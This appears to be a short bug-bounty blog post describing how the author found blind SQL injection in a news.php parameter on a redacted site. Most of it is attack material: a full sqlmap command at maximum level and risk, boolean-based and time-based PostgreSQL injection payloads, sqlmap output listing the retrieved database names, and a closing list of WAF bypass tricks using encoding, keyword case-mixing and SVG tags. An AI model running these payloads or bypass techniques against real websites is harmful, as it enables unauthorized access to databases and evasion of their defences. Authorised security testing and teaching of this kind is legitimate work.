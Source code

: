 My bug hunter instincts kicked in. Time to test for SQLi!

# ⚡ The SQLi Attack

I ran **SQLmap** like a warrior:

```bash
sqlmap -u "https://example.com/news.php?selectedSources=xxxxx" \  
  --dbms=postgres \  
  --cookie="PHPSESSIONID=xxxxx” \  
  --random-agent --level=5 --risk=3 --dbs --batch
```

🔍 **SQLmap Results:**

- **Parameter:** selectedSources (GET)
- **Type:** Boolean-based blind

**Payload:**

```bash
selectedSources=someSources') OR 06690=6690 OR ('04586'='4586

```
- **Type:** Time-based blind

**Payload:**

```bash
selectedSources=someSources') AND 4564=(SELECT 4564 FROM PG_SLEEP(6)) OR ('04586'='4586
```

# 🏆 The Victory

```
[09:22:33] [INFO] Testing PostgreSQL  
[09:22:34] [INFO] Confirming PostgreSQL  
[09:22:34] [INFO] The back-end DBMS is PostgreSQL  
[09:22:34] [INFO] Fetching database names  
[09:22:51] [INFO] Retrieved: 3  
[09:26:01] [INFO] Retrieved: information_schema  
[09:27:51] [INFO] Retrieved: pg_catalog  
[09:28:57] [INFO] Retrieved: public
```


---

## Bypass WAF  With:


- Using encoded characters: `%27` for `'`, `%3C` for `<`
- Replacing keywords: `UNION` → `UnIOn`, `SELECT` → `sElEcT`
- Bypassing scripts via SVG tags, malformed HTML

